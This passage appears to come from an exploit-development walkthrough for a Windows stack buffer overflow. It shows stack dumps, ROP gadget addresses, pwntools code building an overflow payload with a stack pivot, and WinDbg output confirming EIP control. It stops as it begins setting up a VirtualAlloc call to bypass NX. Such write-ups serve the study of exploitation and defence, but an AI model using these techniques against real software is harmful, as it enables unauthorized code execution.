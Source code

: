 I'm also going to update the script to land esp at `BBBB` instead of `CCCC`

Looking at the stack layout:
```
41414141 41414141 41414141 41414141
41414141 41414141 41414141 41414141
41414141 41414141 41414141 41414141
41414141 41414141 10094A53 41414141
43434343 43434343 43434343 43434343
43434343 43434343 43434343 43434343
43434343 43434343 43434343 43434343
43434343 43434343 43434343 10039F9E
```
We are going to need to pivot over `10039F9E` anyways so may as well do it with the stack alignment resulting in a realignment of `0x28`

```
0x10127d80: add esp, 0x20; ret;
```

off by `0xc` :/

```
0x10136de0: add esp, 0x2c; ret;
```

updated code
```
stack_pivot = 0x10039f9e # add esp, 0x4e8; ret 0x18;
addr_realign = 0x10136de0 # add esp, 0x2c; ret;
rop_start = deref_off - 4

body = b'A' * rop_start
body += pwn.p32(addr_realign)
body += b'B' * (eip_off - len(body))
#body += b'D' * 4
body += pwn.p32(stack_pivot)
body += b'C' * 4
body += b'D' * (max_buf - len(body))
```

```
0:007> 
eax=00000000 ebx=00000000 ecx=10039f9e edx=77638fd0 esi=00000000 edi=00000000
eip=43434343 esp=02ccfa94 ebp=02ccf580 iopl=0         nv up ei pl nz ac pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000216
43434343 ??              ???
```

Now we dont need to worry about stack pivoting anymore.

# Virtual Alloc Stack Frame
As shown before the stack is currently NX so we can use something like `VirtualProtect` or `VirtualAlloc` to change the page permissions to RWX and execute shellcode on the stack. 
To do this we need to create a stack frame for VirtualAlloc and then call a pointer to VirtualAlloc to execute the function. The easiest way to do this is with the `pushad; ret;` opcodes. What this will do is push a bunch of registers to the stack:
